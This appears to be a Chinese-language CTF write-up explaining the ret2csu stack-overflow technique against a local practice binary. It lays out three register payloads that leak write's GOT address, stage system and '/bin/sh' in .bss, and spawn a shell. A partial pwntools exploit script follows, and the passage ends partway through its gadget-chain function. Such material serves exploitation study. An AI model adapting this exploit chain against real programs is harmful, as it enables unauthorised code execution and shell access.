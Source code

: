 第一个payload

```plain
这里是为了泄露write的got表地址
r12 -> 1
r13 ->write_got
r14 ->0x8
r15 ->write_got
ret ->gadget2
p64(1)*7 ->主要是上面我说的padding ->新一轮的rsp+8,rbx,rbp,r12,r13,r14,r15
```

第二个payload

```plain
这里是为了调用read函数从而将system,binsh写入bss段
r12 ->0
r13 ->bss段地址
r14 ->0x20
r15 ->read_got
```

第三个payload

```plain
这里是传入我们写入system和binsh的地址
r12 ->binsh的地址 ->bss段地址为0x404060->我们传入的是system+binsh，所以binsh的地址为0x404068
r13 ->0
r14 ->0
r15 ->system
```

exp:

```plain
from pwn import *
context.log_level='debug'
p=process('./csu')
elf = ELF('./csu')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

def ret_csu(r12, r13, r14, r15, last):
    payload = offset * 'a'  
    #构造栈溢出的padding
    payload += p64(first_csu) + 'a' * 8    
    #gadgets1的地址
    payload += p64(0) + p64(1)
    #rbx=0, rbp=1
    payload += p64(r12)
    #call调用的地址
```